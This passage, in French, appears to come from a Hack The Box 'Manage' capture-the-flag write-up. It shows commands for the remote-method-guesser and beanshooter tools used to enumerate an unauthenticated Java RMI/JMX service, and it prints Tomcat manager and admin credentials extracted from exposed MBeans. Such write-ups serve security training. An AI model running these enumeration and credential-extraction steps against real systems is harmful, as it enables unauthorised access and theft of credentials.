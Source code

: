 ### **2. Installation des Outils Spécialisés**

Pour exploiter efficacement les services Java RMI/JMX, nous avons besoin d'outils spécialisés :

```bash
wget https://github.com/qtc-de/remote-method-guesser/releases/download/v4.4.1/rmg-4.4.1-jar-with-dependencies.jar
wget https://github.com/qtc-de/beanshooter/releases/download/v4.1.0/beanshooter-4.1.0-jar-with-dependencies.jar
```

### **3. Énumération RMI avec RMG**

Utilisons Remote Method Guesser (RMG) pour énumérer le service RMI :

```bash
java -jar rmg-4.4.1-jar-with-dependencies.jar enum 10.129.236.246 2222
```

![Résultats de l'énumération RMG](/images/HTBManage/rmg_enum.png)

{{< admonition note "Résultats Clés" >}}
- Service JMX exposé : `jmxrmi` pointant vers `127.0.1.1:37549`
- JEP290 activé (protection contre la désérialisation)
- Pas de Security Manager
- Non vulnérable aux attaques de désérialisation classiques (CVE-2019-2684)
{{< /admonition >}}

### **4. Exploitation avec Beanshooter**

Poursuivons l'énumération avec Beanshooter, un outil spécialisé pour l'exploitation JMX :

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.129.236.246 2222
```

![Résultats de l'énumération Beanshooter](/images/HTBManage/beanshooter_enum.png)

{{< admonition success "Vulnérabilités Critiques Détectées" >}}
1. **JMX sans authentification**
   ```
   - Remote MBean server does not require authentication.
   Vulnerability Status: Vulnerable
   ```

2. **171 MBeans exposés** incluant `MemoryUserDatabaseMBean`

3. **Extraction automatique des credentials Tomcat :**
   ```
   Username: manager
   Password: fhErvo2r9wuTEYiYgt
   Roles: manage-gui

   Username: admin
   Password: onyRPCkaG4iX72BrRtKgbszd
   Roles: role1
   ```
{{< /admonition >}}
